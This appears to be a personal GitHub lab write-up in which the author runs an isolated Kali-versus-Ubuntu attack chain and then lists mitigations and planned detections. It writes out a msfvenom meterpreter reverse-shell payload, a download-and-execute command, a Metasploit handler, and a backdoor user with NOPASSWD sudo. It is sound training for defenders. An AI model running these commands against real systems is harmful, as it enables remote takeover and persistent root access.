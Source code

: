ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


- Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

- Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
'evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_ .png'


---


  INITIAL ACCESS AND EXECUTION

 1. Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 2. Artifacts / screenshots
-Payload creation: 'evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png'
-Serving payload: 'evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png'
-Payload downloaded on victim: 'evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png'
-Exploit/run and handler: 'evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png'
-Successful execution(meterpreter/shell proof)- 'evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png'

 3. What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

4. Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

5. On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

6. Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   PERSISTANCE
   
1. Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

2. Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

3. Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   PRIVILEGE ESCALATION
   
1. Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

2. Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

3. Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   LESSION'S LEARNED AND MITIGATION

  Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

  Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



